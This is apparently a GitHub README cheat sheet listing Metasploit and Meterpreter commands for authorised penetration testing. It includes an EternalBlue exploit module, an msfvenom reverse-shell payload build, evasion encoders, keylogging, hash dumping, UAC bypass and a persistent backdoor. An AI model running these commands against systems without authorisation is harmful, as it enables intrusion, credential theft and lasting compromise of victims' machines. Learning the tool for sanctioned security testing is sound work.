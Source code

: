 # The-Complete-Metasploit-Guide
A comprehensive resource covering everything about Metasploit from basic commands to advanced exploitation techniques.

## Table of Contents
- [Core Commands](#core-commands)
- [Module Management](#module-management)
- [Exploitation](#exploitation)
- [Session Management](#session-management)
- [Auxiliary Modules](#auxiliary-modules)
- [Post-Exploitation](#post-exploitation)
- [Network Configuration](#network-configuration)
- [Database Integration](#database-integration)
- [Advanced Module Commands](#advanced-module-commands)
- [Payload Customization](#payload-customization)
- [Exploit Adjustments](#exploit-adjustments)
- [Job Control](#job-control)
- [Environmental Settings](#environmental-settings)
- [Meterpreter Commands](#meterpreter-commands)
- [Privilege Escalation and Persistence](#privilege-escalation-and-persistence)
- [Pivoting](#pivoting)
- [Logging and Reporting](#logging-and-reporting)

## Core Commands
- **Help Menu**: `help` or `?` - Display the help menu with available commands.
- **Version**: `version` - Show the version of Metasploit.
- **Exit**: `exit` - Exit the Metasploit console.

## Module Management
- **Search Modules**: `search <keyword>` - Search for specific modules.
- **Load Module**: `use <module>` - Load a module (e.g., `use exploit/windows/smb/ms17_010_eternalblue`).
- **Show Options**: `show options` - Display the options for the loaded module.
- **Set Option**: `set <option> <value>` - Set an option (e.g., `set RHOSTS 192.168.1.100`).
- **Show Payloads**: `show payloads` - List available payloads for the selected module.
- **Set Payload**: `set PAYLOAD <payload>` - Set a specific payload (e.g., `set PAYLOAD windows/meterpreter/reverse_tcp`).
- **Show Targets**: `show targets` - List available targets for the module.
- **Set Target**: `set TARGET <target_id>` - Specify the target ID.

## Exploitation
- **Check Vulnerability**: `check` - Check if the target is vulnerable.
- **Execute Exploit**: `exploit` or `run` - Execute the exploit.
- **Background Job**: `exploit -j` - Run the exploit in the background as a job.
- **No Interaction**: `exploit -z` - Launch the exploit but do not interact with the session.

## Session Management
- **List Sessions**: `sessions -l` - List all active sessions.
- **Interact with Session**: `sessions -i <id>` - Interact with a specific session by its ID.
- **Kill Session**: `sessions -k <id>` - Kill a specific session.

## Auxiliary Modules
- **Show Auxiliary**: `show auxiliary` - Display auxiliary modules.
- **Load Auxiliary Module**: `use auxiliary/scanner/<module>` - Load an auxiliary module (e.g., `use auxiliary/scanner/portscan/tcp`).

## Post-Exploitation
- **Use Post Module**: `use post/<module>` - Use a post-exploitation module.
- **Run Post Module**: `run` - Execute the post-exploitation module.

## Network Configuration
- **Set Global Option**: `setg <option> <value>` - Set a global option (e.g., `setg RHOSTS 192.168.1.0/24`).
- **Add Route**: `route add <subnet> <netmask> <session_id>` - Add a route through a specific session.

## Database Integration
- **Connect to Database**: `db_connect` - Connect to a database.
- **Show Hosts**: `hosts` - Display hosts from the database.
- **List Services**: `services` - List services discovered on the hosts.
- **Show Vulnerabilities**: `vulns` - Show vulnerabilities.

## Advanced Module Commands
- **Show Encoders**: `show encoders` - Display available encoders to obfuscate payloads.
- **Set Encoder**: `set ENCODER <encoder>` - Set a specific encoder (e.g., `set ENCODER x86/shikata_ga_nai`).
- **Show Evasion**: `show evasion` - List available evasion techniques to bypass security mechanisms.
- **Set Evasion**: `set EVASION <evasion_method>` - Specify an evasion method.

## Payload Customization
- **Generate**: `generate` - Create a standalone payload with specified options.
- **Use Msfvenom**: Outside the console, generate a custom payload:
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o payload.exe

  ## Exploit Adjustments
- **Set AutoRunScript**: `set AutoRunScript <script>` - Set a script to execute automatically after exploit success.
- **Set LHOST**: `set LHOST <IP>` - Set the local IP address for reverse connections.
- **Set LPORT**: `set LPORT <Port>` - Set the local port for reverse connections.

## Job Control
- **List Jobs**: `jobs` - List all running jobs.
- **Kill Job**: `jobs -k <job_id>` - Kill a specific job.
- **Terminate All Jobs**: `jobs -K` - Terminate all jobs.

## Environmental Settings
- **Set Global RHOSTS**: `setg RHOSTS <range>` - Set a global range of target hosts.
- **Unset Global Option**: `unsetg <option>` - Remove a globally set option.
- **Run Resource File**: `resource <file>` - Run a set of commands from a file.

## Meterpreter Commands (Post-Exploitation)
- **System Info**: `sysinfo` - Display target system information.
- **Get User ID**: `getuid` - Show the user ID of the current session.
- **List Processes**: `ps` - List running processes on the target.
- **Migrate**: `migrate <pid>` - Move the Meterpreter session to a different process.
- **Upload**: `upload <local_path> <remote_path>` - Upload files to the target.
- **Download**: `download <remote_path> <local_path>` - Download files from the target.
- **Start Keystroke Capture**: `keyscan_start` - Start capturing keystrokes.
- **Dump Keystrokes**: `keyscan_dump` - Retrieve captured keystrokes.
- **Screenshot**: `screenshot` - Capture a screenshot of the target's screen.
- **Hashdump**: `hashdump` - Dump the hashes of user passwords.

## Privilege Escalation and Persistence
- **Get System Privileges**: `getsystem` - Attempt to gain system-level privileges.
- **Bypass UAC**: `use exploit/windows/local/bypassuac` - Exploit to bypass User Access Control (UAC).
- **Run Persistence**: `run persistence` - Install a persistent backdoor.

## Pivoting
- **Port Forwarding**: `portfwd add -l <local_port> -p <remote_port> -r <remote_host>` - Forward ports through the compromised host.
- **SOCKS5 Proxy**: `socks5` - Set up a SOCKS5 proxy for pivoting.

## Logging and Reporting
- **Display Loot**: `loot` - Display collected loot from exploits or scans.
- **Notes**: `notes` - View or add notes for specific hosts.


